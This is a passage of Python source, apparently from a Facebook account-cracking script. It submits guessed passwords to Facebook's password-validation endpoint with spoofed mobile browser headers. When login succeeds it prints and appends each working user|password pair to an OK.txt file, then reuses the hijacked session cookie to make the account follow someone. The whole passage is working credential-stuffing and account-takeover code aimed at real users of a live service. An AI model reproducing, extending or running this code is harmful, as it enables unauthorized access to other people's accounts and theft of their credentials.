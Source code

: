                     "flow":"login_no_pin",

                    "pass":pw,

                    "next":"https://developers.facebook.com/tools/debug/accesstoken/"

                }

                header1 = {

                    "Host":cebok,

                    "cache-control":"max-age=0",

                    "upgrade-insecure-requests":"1",

                    "origin":"https://"+cebok,

                    "content-type":"application/x-www-form-urlencoded",

                    "user-agent":"Mozilla/5.0 (Linux; Android 12; SAMSUNG SM-G780G) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/16.0 Chrome/92.0.4515.166 Mobile Safari/537.36",

                    "accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",

                    "x-requested-with":"XMLHttpRequest",

                    "sec-fetch-site":"same-origin",

                    "sec-fetch-mode":"cors",

                    "sec-fetch-user":"empty",

                    "sec-fetch-dest":"document",

                    "referer":"https://"+cebok+"/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F",

                    "accept-encoding":"gzip, deflate br",

                    "accept-language":"en-GB,en-US;q=0.9,en;q=0.8"

                }

                po = session.post(f"https://{cebok}/login/device-based/validate-password/?shbl=0", data = das, headers = header1, allow_redirects = False)

                if 'c_user' in session.cookies.get_dict():

                    coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])

                    print(f"\r{H} [NABIHA-OK] {user} | {pw}")

                    wrt = '%s|%s' % (user,pw)

                    ok.append(wrt)

                    open('OK.txt' , 'a').write('%s\n' % wrt)

                    self.follow(session,coki)

                    break

                elif 'checkpoint' in session.cookies.get_dict():
